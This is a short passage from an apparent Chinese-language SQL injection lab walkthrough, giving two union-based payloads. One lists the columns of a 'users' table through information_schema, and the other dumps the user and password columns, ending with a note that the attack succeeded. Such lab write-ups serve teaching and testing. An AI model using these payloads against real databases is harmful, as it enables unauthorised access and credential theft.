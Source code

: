 - 获取数据库中的列，输入
```sql 
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```
- 结果如下</b>![](./img/sql-in-8.png)
- 获取user列和 password列的内容,输入
```sql
1' union select group_concat(user),group_concat(password) from users#
```
- 结果如下,攻击成功！</b>![](./img/sql-in-9.png)
